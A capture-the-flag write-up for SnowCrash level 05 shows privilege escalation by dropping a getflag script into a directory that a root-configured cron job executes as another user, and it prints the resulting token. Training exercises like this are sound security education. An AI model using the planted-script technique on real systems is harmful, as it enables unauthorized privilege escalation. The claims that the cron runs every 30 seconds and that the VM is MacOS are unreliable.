 # Level 05

## Vulnerability

Privilege escalation - cron

## Context

When we ssh log in directly to level05, we see the message ```You have new mail.```

## Solution

Lets investigate the mail hint. Cron on MacOS saves mail to /var/mail/{user}.
```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
User flag05 informs us they set up a cron job to run a script /usr/sbin/openarenaserver every 30 seconds.

Lets have a look at the script.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```
We see this script is run with user flag05 permissions. Unfortunately we don't have permission to edit this file (and have it call getflag). So lets investigate what this script does.
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
This script will run all files in /opt/openarenaserver in a bash shell.
Thus we should create a bash script to call getflag in /opt/openarenaserver/.
```
level05@SnowCrash:~$ echo "getflag > /dev/shm/flag" > /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```
Wait a minute... and...
```
level05@SnowCrash:~$ cat /dev/shm/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

